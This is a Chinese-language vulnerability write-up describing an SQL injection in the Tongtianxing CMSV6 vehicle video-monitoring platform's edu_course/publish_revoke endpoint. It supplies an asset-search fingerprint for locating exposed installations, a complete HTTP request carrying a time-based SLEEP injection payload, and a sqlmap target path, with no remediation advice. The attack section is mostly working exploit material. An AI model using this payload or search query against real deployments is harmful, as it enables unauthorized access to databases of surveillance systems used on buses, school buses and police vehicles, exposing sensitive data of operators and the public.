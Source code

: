 # 通天星CMSV6车载视频监控平台 edu_course/publish_revoke存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台edu_course/publish_revoke存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/LzwGPnC6BmZGEgDF/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-051441.png)

# 四、漏洞复现
```java
GET /edu_course/publish_revoke;downloadLogger.action?id=(SELECT+5394+FROM+(SELECT(SLEEP(5)))tdpw)--+&value=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=58586A7CBD64C381945F9AAACFDF7C40
Connection: close
Content-Length: 0
```

![1712850115886-4c901b40-1d44-4be6-b87f-d1fe32e3a315.png](./img/LzwGPnC6BmZGEgDF/1712850115886-4c901b40-1d44-4be6-b87f-d1fe32e3a315-422299.png)

sqlmap

```java
/edu_course/publish_revoke;downloadLogger.action?id=1&value=1
```

![1712850269122-4dff0f16-01db-4ca5-9347-1a08da7752b8.png](./img/LzwGPnC6BmZGEgDF/1712850269122-4dff0f16-01db-4ca5-9347-1a08da7752b8-990604.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dv0sw9puz54vfp6b>